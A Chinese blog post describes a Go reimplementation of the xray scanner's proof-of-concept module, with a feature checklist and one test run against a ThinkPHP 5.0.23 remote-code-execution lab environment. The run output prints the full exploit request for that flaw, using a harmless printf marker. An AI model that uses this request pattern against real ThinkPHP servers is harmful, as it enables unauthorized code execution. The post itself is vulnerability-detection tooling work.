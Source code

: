 ```yaml
---
layout: post
title: xray-poc模块功能复现
description: ""
keywords: ""
---
```


长亭科技出品的[xray](https://github.com/chaitin/xray)真心👍，🐂🍺!!!!!!

正好学了Golang，复现了下xray的poc功能模块，其中提到的Google的cel-go表达式没有摸懂，使用笨拙的方法来匹配。

代码地址：[https://github.com/SewellDinG/xray_poc_demo](https://github.com/SewellDinG/xray_poc_demo)

## Tasklist

- [x] 解析YAML
- [x] HTTP发包
- [x] 表达式预处理
- [x] 模式匹配
- [x] 常用函数
- [x] goroutine​并发
- [x] flag传参​
- [ ] 批量获取目标
- [ ] 302跳转
- [ ] 自定义变量set
- [ ] reverse反连平台

## Test

漏洞环境：[thinkphp/5.0.23-rce](https://vulhub.org/#/environments/thinkphp/5.0.23-rce/)

POC：[thinkphp5023-method-rce.yml](https://github.com/chaitin/xray/blob/master/pocs/thinkphp5023-method-rce.yml)

```
[Sewell]: ~/Documents/xray_poc_demo ✗ master*
➜  ./xray_poc_demo --poc thinkphp5023-method-rce.yml --url http://34.xxx.69.xxx:8080
------------------ 1 ------------------
* rule:{Method:POST Path:/index.php?s=captcha Headers:{Cookie: ContentType:application/x-www-form-urlencoded} Body:_method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=TmlnaHQgZ2F0aGVycywgYW5%25%25kIG5vdyBteSB3YXRjaCBiZWdpbnMu&get[]=1
 Search: FollowRedirects:false Expression:response.body.bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1')
}
* resp: 200 map[Content-Type:[text/html; charset=UTF-8] Date:[Fri, 13 Dec 2019 05:58:16 GMT] Server:[Apache/2.4.25 (Debian)] Vary:[Accept-Encoding] X-Powered-By:[PHP/7.2.12]]
* expr: &{Body:bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1') ContentType: Status:}
* Vuln: poc-yaml-thinkphp5023-method-rce
* Target: http://34.xxx.69.xxx:8080
```

